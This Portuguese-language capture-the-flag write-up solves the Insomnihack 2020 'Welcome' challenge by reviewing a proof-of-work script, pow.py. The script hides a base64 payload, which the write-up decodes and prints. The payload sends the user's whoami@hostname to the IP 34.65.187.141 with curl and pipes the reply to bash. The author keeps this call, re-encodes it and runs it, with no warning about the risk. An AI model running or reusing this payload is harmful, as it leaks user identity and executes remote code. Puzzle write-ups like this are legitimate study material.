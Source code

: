 # Welcome

Essa foi a Chall inicial do CTF que, apesar de ser um pouco mais complexas que as demais "Welcome's", vamos ver que não tem nada de complicado.

Primeiro vamos ver o anúncio da Chall
![description](images/description.png)

Então aqui, temos um arquivo chamado `pow` para baixar e um alvo que podemos acessar via Netcat (nc welcome.insomnihack.ch 1337).

Primeiro vamos executar o comando no terminal e vermos a saida
```bash
nc welcome.insomnihack.ch 1337
```
![netcat](images/netcat.png)

O script está nos pedindo um hash MD5 em que a inicial seja `92cea2` (esse valor á alterado a cada vez que executamos o script).

Bom, vamos então fazer um code review no arquivo que foi disponibilizado.

![pow.py](images/pow.py.png)

Vendo rapidamente o código, podemos notar que esse script em python está gerando hashes em números sequenciais, até achar um número que tenha a inicial como esperamos. Vamos então executar esse script passando como parâmentro, a inicial que nos foi passada (92cea2).
```bash
python pow.py 92cea2
```
Depois de esperar por alguns poucos minutos, o script conseguiu me retornar o hash de algum número que, em MD5 tenha a mesma inicial que esperamos. Então vamos inserir o valor e... Ops, algo deu errado! Mal deram um start no ano de 2020 e já estou no "Wall of Shame". É um belo jeito de começar o ano não?

![shame](images/shame.png)

Precisamos fazer um code review mais detalhado para acharmos essa solução. O único ponto realmente estranho nesse código, sem dúvidas é esse base64 na linha 18. Vamos verificar o seu conteúdo com o comando:
```bash
echo 'Z2xvYmFsIGk7aSs9MTMzNzt4PW9zLm5hbWU7eCs9Ii8kKHdob2FtaSlAJChob3N0bmFtZSl8YmFzaCJpZiB4IT0ibnQiZWxzZSIvJVVTRVJOQU1FJUAlVVNFUkRPTUFJTiUiO29zLnN5c3RlbSgiY3VybCAtTnMgMzQuNjUuMTg3LjE0MS8iK3gp' | base64 -d
```

![base64_decode](images/base64_decode.png)

Vamos pensar juntos... O retorno do número que nos dará uma hash válida, está na variável `i`, porém o base64 irá incrementar o valor de `1337` no valor de  `i`. Essa valor (1337) foi adicionado somente como uma forma de enganar "olhos desatentos", já que é o mesmo número da porta que estamos acessando o host.

Realizar uma alteração nesse script é fácil, iremos executar o seguinte comando para remover o `i+=1337` e converter em base64:
```bash
echo -n 'global i;x=os.name;x+="/$(whoami)@$(hostname)|bash"if x!="nt"else"/%USERNAME%@%USERDOMAIN%";os.system("curl -Ns 34.65.187.141/"+x)' | base64
```

![fix_base64](images/fix_base64.png)

---
**ATENÇÃO.:** A saída do base64 está quebrado em algumas linhas, porém o seu valor original deve ficar somente em uma única linha e sem espaços. 

---

Agora que temos nosso base64 correto, vamos editar o arquivo `pow.py` na linha `18` e substituí-lo pelo encode correto.

Feito isso, só precisamos executar novamente o comando `nc welcome.insomnihack.ch 1337` e em outro terminal, executar o arquivo `pow.py`.

![flag](images/flag.png)

Bazinga! Capturamos nossa Flag.
Espero poder ter te ajudado em algo!

Abs...
